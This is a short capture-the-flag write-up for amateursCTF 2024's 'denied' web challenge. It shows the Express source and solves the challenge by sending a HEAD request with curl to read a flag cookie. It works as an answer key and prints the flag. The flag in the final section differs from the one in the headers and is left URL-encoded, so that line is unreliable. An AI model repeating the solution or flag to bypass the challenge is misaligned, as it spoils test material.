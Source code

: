 <title>denied-  amateurctf2024</title>

<!DOCTYPE html>
<html>

<body>
    <h1>denied-  amateurctf2024</h1>

    <h2>Challenge Description</h2>
    <p> 
 what options do i have?
<a href="http://denied.amt.rs
">http://denied.amt.rs
Downloads

<a href="https://storage.amateurs.team/uploads/b09db84f4e57f8fbf39c2afb235f13e1ebf780b4833a13ba08e7afdf08e09622/index.js">index.js</a>
</a>
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
       i open site see only bad so download index.js and see script 
       <p id="code1">
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

    </p>
    it seems that with get request we can get flag in flag cookie 
best options is use($1=http://denied.amt.rs/)
<pre>
$curl -I $1
</pre>
that show all details of url and reguest get like below
<p id="code1">
──(kali㉿kali)-[~/…/blog/2024/amateursctf/denied]
└─$ curl -I http://denied.amt.rs/
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Wed, 10 Apr 2024 07:33:49 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
</p>
flag is in url encoded that should decoded and ge flag
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">amateursCTF{Bs0_m%40ny_0ptions...}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work on curl and javascript and get cookie with curl</p>
</body>
</html>



